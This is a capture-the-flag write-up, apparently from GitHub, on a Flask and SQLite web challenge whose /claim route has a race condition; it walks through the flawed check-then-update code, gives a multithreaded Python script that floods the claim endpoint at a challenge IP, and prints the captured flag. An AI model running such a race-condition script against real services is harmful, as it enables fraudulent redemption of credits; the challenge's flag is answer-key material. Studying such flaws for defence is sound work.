![image](https://github.com/user-attachments/assets/aed90ea8-d1de-4a71-a972-cdef13c48e7c)

## How the app works:
![image](https://github.com/user-attachments/assets/208f501c-21f0-45d4-ac6f-cd03939f0cf3) ![image](https://github.com/user-attachments/assets/b00a16b4-bfd9-4f8e-9f33-a536c6309b4e)

```js
/register - New user with 1000 balance. 
/claim - +1000 bonus (1 per user). 
/buy_flag - Need 3000 balance for flag
```

## What Actually Happened (My Mistake Story):
Okay so at first  I thought this challenge was something about token or session attack. 
I spent like 5-10 minutes trying to look at the session cookie  maybe it’s something like JWT, or weak secret key, or something I could decode. 
But turns out... 
```
Flask uses os.urandom(16) for app.secret_key
```
which is random and basically impossible to guess unless you control the server. 
My mistake la G I should’ve just read the backend code properly from the start.

## What I Found After Reading the Backend
After checking the source code  I saw something interesting in the /claim route.
```js
cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
row = cur.fetchone()
if row and row['claimed']:
    flash("You have already claimed your daily bonus!", "danger")
    return redirect(url_for('dashboard'))

db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
db.commit()
```
At first glance, I was like looks okay…
But if you search online or check basic references about Race Condition on database 
especially for Flask + SQLite  you’ll find that this pattern can be risky if the database doesn’t have locking mechanism or transaction isolation.
Reference example: https://portswigger.net/web-security/race-conditions
Here’s another way to do this via burp: https://medium.com/@mahakjaiswani888/race-condition-vulnerability-f92de47aa55c

## Why This Can Be Exploited?
Since the code checks if claimed=1 first  then only after that it updates the balance and sets claimed=1
there is a small window where I can spam multiple requests fast enough before the server saves claimed=1 to the database.
SQLite doesn’t handle this by default unless you use special locking or transaction isolation which this code doesn’t have.

## Exploit Steps
![image](https://github.com/user-attachments/assets/9a8a59c0-af40-4ced-ae57-3609dd62ba26)
•	Register new account - get 1000 balance.
•	Don’t claim the daily bonus 
•	Spam /claim fast using Python multithreading. (Again, we need UNCOLLECTED DAILY BONUS jwt-token for this!)

![image](https://github.com/user-attachments/assets/548cf9f5-cbdf-4f72-83bd-3e253a1fb87e)
Here’s the cracker.py :
```python
import threading
import requests

# Replace these with your target URL and session cookie
BASE_URL = "http://159.69.219.192:7859"
SESSION_COOKIE = "UNCLAIMED DAILY USER TOKEN"

def claim_bonus():
    headers = {"Cookie": f"session={SESSION_COOKIE}"}
    response = requests.post(f"{BASE_URL}/claim", headers=headers)
    print(response.text)

# Create multiple threads to exploit the race condition
threads = []
for _ in range(10):  # Adjust the number of threads as needed
    thread = threading.Thread(target=claim_bonus)
    threads.append(thread)
    thread.start()

# Wait for all threads to complete
for thread in threads:
    thread.join()

print("Exploit completed. Check your balance on /dashboard.")
```
![image](https://github.com/user-attachments/assets/c81b0931-82d7-4a63-8d45-f8c946108e78)

•	Simply refresh our web and finally, redeem flag at /buy_flag.

![image](https://github.com/user-attachments/assets/e8a40c47-8adc-4b48-b733-e158c6f8de4c) ![image](https://github.com/user-attachments/assets/bf280620-443a-4ca8-b9aa-e4cb008bedd7)

•	And here’s the flag!! 
UMCS{th3_s0lut10n_1s_pr3tty_str41ghtf0rw4rd_too!}

